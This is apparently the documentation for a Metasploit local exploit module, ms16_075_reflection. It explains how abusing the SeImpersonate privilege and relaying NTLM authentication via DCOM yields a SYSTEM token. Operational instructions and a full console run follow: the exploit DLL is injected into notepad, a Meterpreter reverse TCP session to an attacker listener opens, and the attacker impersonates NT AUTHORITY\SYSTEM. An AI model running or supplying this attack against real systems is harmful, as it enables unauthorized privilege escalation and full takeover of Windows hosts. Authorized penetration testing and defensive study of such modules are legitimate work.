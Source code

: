## Intro
  This module will abuse the SeImperonsate privilege commonly found in 
services due to the requirement to impersonate a client upon 
authentication. As such it is possible to impersonate the SYSTEM account 
and relay its NTLM hash to RPC via DCOM. The DLL will perform a MiTM 
attack at which intercepts the hash and relay responses from RPC to be 
able to establish a handle to a new SYSTEM token. Some caveats : Set 
your target option to match the architecture of your Meterpreter 
session, else it will inject the wrong architecture DLL into the process 
of a seperate architecture. Additionally, after you have established a 
session, you must use incognito to imperonsate the SYSTEM Token.

## Build Instructions
This builds using visual studio 2017 and tools v141.  Attempts
to compile with previous verstions of build tools will succeed but
the resulting binary fails to exploit the vulnerability.

## Usage
  You'll first need to obtain a session on the target system.
  Next, once the module is loaded, one simply needs to set the 
```payload``` and ```session``` options, in addition to architecture.
  
  Your user at which you are trying to exploit must have `SeImpersonate` 
privileges.
  
  The module has a hardcoded timeout of 20 seconds, as the attack may 
not work immediately and take a few seconds to start. Also, check to 
make sure port 6666 is inherently not in use else the exploit will not 
run properly
  
## Scenario
```
  Name Current Setting Required Description
   ---- --------------- -------- -----------
   SESSION 48 yes The session to run this module on. Payload options 
(windows/x64/meterpreter/reverse_tcp):
   Name Current Setting Required Description
   ---- --------------- -------- -----------
   EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, 
process, none)
   LHOST ens3 yes The listen address (an interface may be specified)
   LPORT 3312 yes The listen port Exploit target:
   Id Name
   -- ----
   1 Windows x64 msf exploit(windows/local/ms16_075_reflection) > run 
[*] Started reverse TCP handler on -snip-:3312
[*] Launching notepad to host the exploit... [+] Process 3564 launched.
[*] Reflectively injecting the exploit DLL into 3564...
[*] Injecting exploit into 3564...
[*] Exploit injected. Injecting payload into 3564...
[*] Payload injected. Executing exploit..
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (206403 bytes) to -snip-
[*] Meterpreter session 49 opened (-snip-:3312 -> -snip-:55306) at 2018-08-03 01:54:18 -0400
meterpreter > load incognito 
Loading extension incognito...Success.
meterpreter > impersonate_token 
'NT AUTHORITY\SYSTEM'
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] No delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getsystem -t 1 ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > 
```
